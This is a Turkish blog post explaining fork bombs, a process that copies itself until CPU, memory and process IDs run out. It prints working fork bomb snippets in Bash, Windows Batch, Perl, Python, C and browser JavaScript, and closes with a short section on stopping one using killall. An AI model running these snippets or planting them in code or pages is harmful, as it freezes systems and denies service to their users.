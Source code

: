```yaml
---
layout: post
title: "Fork Bombasi"
date: 2013-09-26 12:55
comments: true
---
```

Fork bombası, bir prosesin kendini sürekli kopyalarak kullanılarbilir sistem kaynaklarını sömürmesi durumudur.
CPU ve RAM’i meşgul ederek bilgisayarınızın donmasına neden olur. 
# Fork Bombası Nasıl Yapılır ?

Unix türevi bir işletim sistemi kullanıyorsanız, fork sistem çağrısını kullanararak bir fork bombası yapabilirsiniz.<!-- more -->
fork fonksiyonu bulunduğu prosesin bir kopyasını oluşturur. exec fonksiyonu ilede o kopya prosese isteğiniz bir programı gömebilirsiniz.
Eğer siz fonksiyonu sonsuz döngüye sokup sürekli kendini kopyalamasını sağlarsınız elinizde nur topu gibi bir fork bombanız olur.
Çeşitli dillerde gerçekleme yapabilirsiniz. Bir kaç örnek vermek gerekirse:

## Bash

```bash
:(){ :|:& };:

```

## Windows Batch

```bash
:s
start "" %0
goto s

```
## Perl

```perl
perl -e "fork while fork" &
```

## Pyhton

```python
import os
while os.fork() or True: os.fork()

```

## C

```c
#include <unistd.h>
int main()
{
    while(1)
    fork();
}
```

## Javascript

```javascript
<script>
     while (true) {
     var w = window.open();
     w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
     }
</script>

```

## Etkisiz Hale Getirme

Yapıları yüzünden fork bombaları çalışmaya başlayınca durdurması zordur. Eğer şanslıysanız PID’ler bitmeden durdurabilirsiniz. Örnek olarak bash scripti alalım:

```bash
bomb() {
    bomb | bomb &
};
bomb
```

Yukardaki betik öz yineli şekilde kendi kopyasını üretiyor ve ampersan operatöründen dolayı bunu arka planda yapıyor. Eğer prosesin adını biliyorsak önce dondurup sonra da bütün çocuk ve ebeveyn prosesleri öldürürüz yani:

	killall -STOP prosesAdi
	killall -KILL prosesAdi

 Eğer boş PID kalmamışsa bombayı durdurmak için en az bir shell açık olmalıdır. Unix tabanlı sistemlerde her prosesin bir PIDsi vardır. Ama bu sınırlı bir rakamdır. Fork bombası PIDleri doldurursa onu durdurmak içim bir shell açamazsınız daha doğrusu yeni bir proses oluşturamazsınız. Bu durumda en az bir shell açık olmalıdır.
kaynak:wikipedia
